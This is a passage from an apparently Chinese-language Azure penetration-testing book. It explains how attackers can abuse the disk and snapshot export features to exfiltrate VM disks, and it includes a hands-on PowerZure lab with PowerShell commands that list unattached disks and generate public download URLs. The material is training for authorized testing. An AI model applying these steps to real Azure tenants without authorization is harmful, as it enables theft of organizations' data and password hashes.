运行此脚本后，您应该希望在输出中看到多个 `ProtectedSettingsDecrypted` 实例，其中包含敏感的扩展信息。如果您之前按照命令执行技术进行操作，您还应该在结果中看到之前发出的命令。

> **重要说明**
>
> 由于 Jake Karnes 在解释允许我们读取这些文件的核心问题方面做得更好，请查看他的博客，了解该问题的来源和利用方法： `https://blog.netspi.com/decrypting-azure-vm-extension-settings-with-get-azurevmextensionsettings/`。

现在我们已经介绍了提取凭据的内存和磁盘上选项，让我们来看一下使用 Azure 磁盘导出的更静态类型的分析。

#### 利用磁盘导出和快照导出功能

与本地 VM 一样，Azure VM 也有虚拟磁盘附加用于数据存储。至少，Azure VM 有一个操作系统磁盘附加，但它也可以附加额外的數據磁盘。这些磁盘可能包含渗透测试人员可以在后续攻击阶段利用的有用信息。

Azure 平台有一个名为磁盘导出的功能，可用于生成临时公共共享访问签名（SAS）URL 以下载 VM 磁盘。此功能的目的在于使管理员和开发人员更轻松地将磁盘从一个 Azure 区域复制到另一个区域，例如灾难恢复的情况。此功能也可以被攻击者利用来将数据外泄到组织之外！

要从 Azure 门户使用此功能，您可以转到 Azure 中的磁盘刀片，选择一个磁盘，单击磁盘导出选项，然后单击图 5.28 中突出显示的生成 URL 按钮：


图 5.28 – 磁盘导出的 URL 生成

需要注意的是，磁盘导出功能只能用于未附加到正在运行的 VM 的磁盘。如果磁盘附加到正在运行的 VM，我们可以先创建磁盘的快照，然后使用类似的快照导出功能（图 5.29）生成临时 SAS URL，我们可以使用它从互联网下载快照：


图 5.29 – 快照 URL 功能

由于多种原因，这些磁盘和快照最终可能会存储在存储帐户中。当这些存储帐户中的文件被公开可用时，这会产生更大的影响。

> **重要说明**
> 下载 VHD 文件时，请记住文件的大小。来自 Azure 门户的典型 HTTP 网络下载可能难以处理大型磁盘。此外，您可能希望使用具有足够磁盘空间的 Azure VM 来复制 VHD 文件。通过使用 Azure 后台网络将文件复制到 VM 磁盘，您可能会在下载过程中节省大量时间。

如前所述，下载 Azure 虚拟磁盘可能会产生显著的带宽影响，因此在实践中可能不是最有趣的练习。在渗透测试中，当您能够访问磁盘上的所有文件和密码哈希时，您的耐心可能会得到回报。此外，我们甚至可以在 Hyper-V 中启动 VHD 文件。

需要说明的另一项是磁盘使用的加密。如果磁盘使用客户管理的密钥加密（请参阅 **Encryption** 选项卡），您将需要从密钥库获取密钥来解密它。这超出了本书的范围，但在您处理磁盘时需要记住这一点。

##### 动手练习 – 使用 PowerZure 外泄 VM 磁盘

在本练习中，我们将利用 Azure VM 的磁盘导出功能来外泄未附加或保留的 VM 磁盘。以下是我们将在本练习中完成的任务：

- 1. 在您的渗透测试 VM 上打开 PowerShell。
- 2. 使用以下命令通过身份验证连接到 Azure。系统提示时，输入 `contributoruser` 帐户的凭据，该帐户是在本章前面场景设置脚本中创建的：

```
PS C:\> Connect-AzAccount
```

- 3. 在 PowerShell 控制台中，使用以下命令导入 PowerZure 模块：

```
PS C:\> cd C:\Users\$env:USERNAME\PowerZure
PS C:\> Import-Module .\PowerZure.ps1
```

以下是命令的屏幕截图：


图 5.30 – 将 PowerZure 导入会话

- 4. 使用以下命令获取所有未附加 VM 磁盘的列表：

```
PS C:\> Get-AzDisk | Where-Object {$_.DiskState -ne "Attached"} | Select Name, DiskState, Encryption
```

以下是命令输出的屏幕截图：


图 5.31 – 可供导出的磁盘

命令的输出应返回所有当前未附加到正在运行的 VM 的托管磁盘及其加密状态。在您的输出中，您应该会看到一个以 winvm02 开头的磁盘；请记下磁盘名称，因为它将在下一步中使用。

- 5. 在 PowerShell 控制台中，使用以下命令生成用于导出上一步中识别的磁盘的公开可访问 URL。用上一步中识别的磁盘名称替换 `<DISK_NAME_FROM_STEP_4>` 占位符：

```
PS C:\> Get-AzureVMDisk -DiskName <DISK_NAME_FROM_STEP_4>
```

以下是命令及其输出的屏幕截图：


图 5.32 – 磁盘导出 URL 生成

Get-AzureVMDisk 是 PowerZure 模块，它利用磁盘导出功能生成下载 VM 磁盘的链接。您应该从命令输出中获得一个 URL。请记下此 URL，因为它将在下一步中使用。

- 6. 这最后一步是完全可选的。如果您想在这里节省时间、带宽和磁盘空间，您可以暂停练习，并在未来测试中遇到磁盘时记住该技术。除了对磁盘进行取证以查找文件和哈希之外，在本练习的这一点上我们对磁盘并没有太多可做的。
